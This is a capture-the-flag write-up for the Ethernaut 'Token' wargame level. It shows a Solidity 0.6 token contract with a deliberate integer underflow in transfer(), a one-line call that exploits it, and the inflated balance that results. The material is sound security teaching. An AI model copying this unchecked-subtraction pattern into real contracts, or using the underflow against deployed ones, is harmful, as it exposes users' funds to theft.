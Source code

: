 ```yaml
---
title: "Token"
tags: ["Overflow"]
reference: https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407
---
```


# Description

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

# Solution

1. unsigned integer overflow attack

```
contract.transfer(instance, 30)
```

2. check balance of player

```
await contract.balanceOf(player)
i {negative: 0, words: Array(11), length: 10, red: null}
length
: 
10
negative
: 
0
red
: 
null
words
: 
Array(11)
0
: 
67108833
1
: 
67108863
2
: 
67108863
3
: 
67108863
4
: 
67108863
5
: 
67108863
6
: 
67108863
7
: 
67108863
8
: 
67108863
9
: 
4194303
```
